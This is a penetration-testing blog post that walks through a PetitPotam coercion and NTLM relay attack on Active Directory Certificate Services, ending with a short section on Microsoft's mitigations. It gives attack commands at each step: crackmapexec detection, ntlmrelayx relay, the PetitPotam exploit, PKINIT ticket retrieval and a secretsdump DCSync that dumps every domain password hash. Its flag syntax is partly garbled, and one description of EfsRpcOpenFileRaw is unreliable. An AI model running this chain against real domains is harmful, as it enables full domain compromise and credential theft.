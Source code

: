 ```yaml
---
layout: post
title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
date: "2025-03-21"
authors: ["joao_paulo_assis"]
categories: ["Pentesting", "Red Team", "Hacking", "Active Directory"]
description:
thumbnail: "/assets/images/posts/joao-paulo/1/1-cloudflare-zero-trust.webp"
image: "define it"
comments: false

meta_title: "From Intruder to Domain Admin: PetitPotam's Journey Through NTLM Relay in Active Directory"
meta_description:
meta_image: "/assets/images/posts/joao-paulo/1/1-cloudflare-zero-trust.webp"
---
```


Today, we’re going to discuss a vulnerability that has been known for some time, yet continues to be a thorn in the side of many domain administrators: the notorious <strong>PetitPotam</strong>.

But what exactly is this vulnerability? It’s a flaw associated with the <strong>MS-EFSRPC</strong> protocol (Microsoft Encrypting File System Remote Protocol, which is a Remote Procedure Call interface used to manage encrypted data, enforcing access control policies and confidentiality against unauthorized access). When combined with an NTLM Relay attack, this vulnerability allows an attacker to force a Domain Controller (DC) to authenticate to a listener under the attacker’s control. The attacker can then relay these credentials to another target—most commonly to AD CS (Active Directory Certificate Services). As a result, the attacker can obtain a certificate issued by the Domain Controller, which can then be used to request a Ticket Granting Ticket (TGT), thereby compromising the domain using the Pass-The-Ticket technique.

It’s worth noting that there are several other ways to combine this attack to exploit different flaws in Active Directory processes. However, the method I’ll be focusing on today is related to AD CS. AD CS is particularly interesting because it offers services and functionalities that, <strong>by default</strong>, accept NTLM-based authentication. These services specifically include the <strong>Certificate Authority Web Enrollment</strong> and the <strong>Certificate Enrollment Web Service</strong>.

Alright, let’s get straight to the point. First of all, how can this vulnerability be identified? Thanks to the great CrackMapExec project, we have a module called PetitPotam at our disposal. This module essentially replicates the process carried out by the exploit, which involves performing an insufficient path check in the MS-EFSR protocol using the EfsRpcOpenFileRaw method. This method allows attackers to force the SYSTEM account to create an executable file of their choice, thereby granting local administrative privileges.

Então podemos utilizar-se da seguinte sintaxe de comando:

> crackmapexec smb $target-IP -u username -p password -d $DOMAIN -M PetitPotam

If the system is vulnerable, you’ll see a result similar to this:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/result-vulnerable.webp" alt="Result Vulnerable" %}
</center>

As we can see, it already provides us with the information on where to find the exploit to take advantage of this vulnerability — it can be found at
<a href="https://github.com/topotam/PetitPotam/" target="_blank">https://github.com/topotam/PetitPotam/</a>

Alright, now that we have the exploit in hand, we can move on to the next step, which is configuring ntlmrelayx to capture the authentication and relay it to the AD CS server. You can find ntlmrelayx in Fortra’s repository: <a href="https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py" target="_blank">https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py</a>

The ntlmrelayx configuration syntax will look something like this:

> python3 ntlmrelayx.py -debug -t http://adcs.alvo.com.br/certsrv/certfnsh.asp -smb2support — adcs — template DomainController

In place of adcs.alvo.com.br, you’ll need to specify the URL of your domain’s AD CS. I’m guessing you’d appreciate a tip on how to find that information—no worries, I’ve got you covered! :)

There are several ways to identify or enumerate AD CS. I’ll leave a link below with a variety of commands using both certutil and ldapsearch for that purpose—make good use of it!

{% include framework/shortcodes/link-preview.html
   link="https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates"
   title="ADCS PrivEsc: Certificate Templates"
   subtitle="Privilege escalation with Active Directory Certificate Services"
   domain="0xalwayslucky.gitbook.io"
%}

Now that we have this information, we can move on to executing our exploit with the goal of relaying the credentials to AD CS and obtaining our valuable base64-encoded PKCS#12 certificate in the name of the Domain Controller. The syntax for running the exploit would look something like this:

> python3 petitpotam.py $listener-ip $target-ip

<strong>Note: If you’re running this on a Windows machine, you may need to provide authentication to the exploit, which would look like this:</strong>

> python3 petitpotam.py -u username -p password -d domain $listener-ip $target-ip

What is <strong>$listener-ip?</strong> It refers to the IP address where the ntlmrelayx server is running. Keep in mind that this server must be able to communicate with both the Domain Controller and the AD CS. As for <strong>$target-ip</strong>, it refers to the IP address of the vulnerable Domain Controller that was identified during the CrackMapExec phase.

If the exploit runs successfully, you’ll receive something like this on your ntlmrelayx output:

<center>
{% include framework/shortcodes/figure.html src="/assets/images/posts/joao-paulo/2/logs.webp" alt="LOGS" %}
</center>

Great — we now have our base64-encoded PKCS#12 certificate issued by AD CS in the name of the Domain Controller. So, what’s the next step? We need to obtain a TGT using this certificate. In many articles, tools like Kekeo, Rubeus, and Mimikatz are commonly used to carry out this stage of the attack, but there are other ways we can leverage this as well.

To obtain the TGT, I recommend using a tool called gettgtpkinit.py, which can be found in the following repository: <a href="https://github.com/dirkjanm/PKINITtools" target="_blank">https://github.com/dirkjanm/PKINITtools</a>

The syntax will look something like this:

> python3 gettgtpkinit.py domain/username -pfx-base64 (certificate) dc.ccache

Keep in mind that the username should be the user the certificate is linked to—in the example above, that would be <strong>DC-101$</strong>. And where it says (certificate), you’ll replace it with the base64 string that was generated. Once executed, you’ll then have your TGT—in this case, saved as dc.ccache.

With the TGT in hand, there are a number of actions you can now perform within Active Directory. However, to complete our objective of becoming a Domain Admin, we can carry out a DCSync attack. In short, a DCSync attack is an exploitation technique that allows an attacker to mimic the behavior of a Domain Controller (DC) on a network and request password information from other Domain Controllers. This is done through Active Directory replication—a process normally used to synchronize account and password data between Domain Controllers. The DCSync attack can be used to obtain password hashes of specific accounts, including administrator accounts, without requiring physical or administrative access to the target system.

We can use secretsdump to carry out the DCSync attack. To do this, we first need to export our TGT to the Kerberos authentication environment variable using the following command (for Linux machines):

> export KRB5CCNAME=dc.ccache

And the syntax would look something like this:

> python3 secretsdump.py -just-dc -debug -k -no-pass domain\username -outputfile DC.secretsdump

And watch the magic happen—from that point on, you’ll have access to all the password hashes of the domain’s users, including the hashes of the Domain Admins. With that, you can either attempt to crack the passwords and potentially view them in plain text, or alternatively, leverage techniques like Pass-the-Hash to access other services and processes across the network.

And after all, how can our fellow defenders of the realm — the Blue Teamers — mitigate this vulnerability?

There are several ways to mitigate it — some of them even recommended by Microsoft itself, such as:

1. Enable EPA (Extended Protection for Authentication) for Certificate Authority Web Enrollment — <strong>this is the most secure and recommended option</strong>;

2. Enable EPA for the Certificate Enrollment Web Service — <strong>again, the most secure and recommended option</strong>;

3. Enable <strong>“Require SSL,”</strong> which enforces HTTPS-only connections.

Additionally, it’s recommended to evaluate the use of the NTLM protocol across the entire environment. If it’s not necessary, the use of the protocol should be completely removed or disabled.

For more detailed information on mitigation, I recommend checking out the link below:

{% include framework/shortcodes/link-preview.html
   link="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?source=post_page-----851736c57870---------------------------------------"
   title="KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS)"
   subtitle="Microsoft is aware of PetitPotam which can potentially be used to attack Windows domain controllers or other Windows servers."
   domain="support.microsoft.com"
%}

Stay happy, and happy hacking! :)
